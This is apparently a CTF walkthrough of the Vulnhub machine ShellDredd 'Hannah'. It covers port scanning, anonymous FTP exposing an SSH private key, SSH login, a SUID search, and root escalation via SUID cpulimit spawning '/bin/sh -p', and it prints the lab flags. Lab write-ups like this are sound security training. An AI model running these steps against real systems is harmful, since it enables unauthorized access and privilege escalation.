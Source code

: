```yaml
---
title: "Shelldredd: Hannah Vulnhub CTF Walkthrough"
---
```

The vulnhub virtual machine can be found [here](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)

nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/credit-card-scammers]
└─$ nmap -p- -sV 192.168.56.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:27 EDT
Nmap scan report for 192.168.56.110
Host is up (0.0027s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
{% endhighlight %}

Logging into the FTP service anonymously and snooping around:

{% highlight terminal %}
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> 
{% endhighlight %}

We've been given a private key. let's use that to log into the ssh server
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ chmod 700 id_rsa                                                           130 ⨯
                                                                                     
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ ssh hannah@192.168.56.110 -i id_rsa -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  5 09:20:42 2020 from 192.168.1.140
hannah@ShellDredd:~$
{% endhighlight %}

I'm in. lets take a look around for flags and test for a few low hanging fruit. 

first flag: 
{% highlight terminal %}
hannah@ShellDredd:~$ cat user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
{% endhighlight %}


{% highlight terminal %}
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
{% endhighlight %}


Here we can exploit the SUID binary [cpulimit](https://gtfobins.github.io/gtfobins/cpulimit/). 

{% highlight terminal %}
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 823 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# whoami
root
# cd
# ls
user.txt
# cd ../../root
# ls
root.txt
# cat root.txt
yeZCB44MPH2KQwbssgTQ2Nof
# 
{% endhighlight %}
